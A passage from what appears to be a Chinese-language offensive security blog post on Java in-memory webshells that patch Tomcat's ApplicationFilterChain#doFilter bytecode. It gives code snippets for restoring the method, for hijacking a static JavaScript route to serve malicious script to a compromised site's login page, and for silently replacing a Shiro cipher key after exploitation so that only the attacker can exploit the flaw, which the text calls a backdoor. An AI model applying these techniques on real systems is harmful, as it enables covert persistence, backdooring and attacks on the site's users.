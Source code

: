 4.  <font color="red"> 这种内存马一旦注入到目标程序中，除了重启没有办法直接卸载掉，因为修改掉了原本的类的字节码。</font>
    
    既然如此，那我再把它改回去不就得了嘛。这就是我为什么选择`doFilter`方法的原因——逻辑简单，方便还原。它的逻辑只是调用了`internalDoFilter()`方法（简单来说）。还原就只需要`setBody()`即可：
    
    ```
    // source.txt
    {
        final javax.servlet.ServletRequest req = $1;
        final javax.servlet.ServletResponse res = $2;
        $0.internalDoFilter(req,res);
    }
    
    
    ```
    

拓展
--

当我们能够改变类的字节码，那能做的事情可多了去了，下面我提出两个例子，抛砖引玉。

### 路由劫持

再来假设这么一个情况：拿下来了站点 A，同时其他的资产暂时没有更大的收获，需要使用其他方法来扩展攻击面。在 A 的`/login`中使用了`/static/js/1.js`，那就可以劫持这个路由，回显给他恶意的 js 代码。

实现的话，只需要在`start.txt`也就是即将插入的代码块中，判断一下当前访问的路由。

```
String uri = request.getRequestURI();
if (uri.equals("/static/js/1.js")) {
    response.getWriter().write([恶意js代码]);
    return;
}


```

那么当访问到`/login`的时候，浏览器发现引用了外部 js——`/static/js/1.js`，就会去请求它，然而请求被我们修改后的`ApplicationFilterChain#doFilter()`拦截，返回了一个虚假的页面，导致资源被 “替换”，恶意代码发挥作用。

### 替换 shiro 的 key

shiro 的漏洞已经到了家喻户晓的地步，在实际的渗透中，看到 shiro 都会使用各种工具扫描一下。而后来 shiro 采用随机密钥之后，攻击难度就增加了。现在假设有这么一个情况：通过 shiro 反序列化得到了目标主机的权限，然后偷偷的改掉目标的 key，那么这个漏洞就只有你能够攻击，总某种意义上来说，帮人家修复了漏洞，也算是留了后门。

分析 shiro 反序列化漏洞的文章网上已经有很多了，这里就不再赘述，直接讲重点的地方。

**在解析 rememberMe 的时候，先将其 base64 解码，然后使用 AES 解密，在 AES 解密的时候，会调用`org.apache.shiro.mgt.AbstractRememberMeManager#getDecryptionCipherKey()`**，更改掉这个函数的返回值，就可以更改解密的密钥。实现也很简单，只需要改掉上面的常量和`start.txt`即可：

```
public static final String editClassName = "org.apache.catalina.core.ApplicationFilterChain";
public static final String editClassName2 = editClassName.replace('.', '/');
public static final String editMethod = "doFilter";

// start.txt (使用insertBefore())
{
    $0.setCipherKey(org.apache.shiro.codec.Base64.decode("4AvVhmFLUs0KTA3Kprsdag=="));
}

// start.txt (使用setBody())
{
    return (org.apache.shiro.codec.Base64.decode("4AvVhmFLUs0KTA3Kprsdag=="));
}


```
